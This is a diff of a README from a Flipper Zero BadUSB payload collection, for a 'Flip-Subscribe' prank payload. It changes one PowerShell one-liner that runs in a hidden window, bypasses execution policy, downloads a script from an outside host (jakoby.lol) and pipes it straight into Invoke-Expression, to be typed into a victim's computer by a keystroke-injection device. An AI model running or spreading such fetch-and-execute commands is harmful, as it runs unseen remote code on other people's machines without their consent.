

Before and after one commit to I-Am-Jakoby/Flipper-Zero-BadUSB, a Markdown page: Payloads/Flip-Subscribe/README.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/Payloads/Flip-Subscribe/README.md
+++ b/Payloads/Flip-Subscribe/README.md
@@ -37,7 +37,7 @@ SPOILER: They do.
 * 15 seconds later you have a new subscriber
 
 ```
-powershell -w h -NoP -Ep Bypass $channel='youtube.com/iamjakoby';iwr jakoby.lol/wj4 | iex
+powershell -w h -NoP -Ep Bypass $channel='youtube.com/iamjakoby';irm jakoby.lol/wj4 | iex
 ```
 
 <p align="right">(<a href="#top">back to top</a>)</p>
````
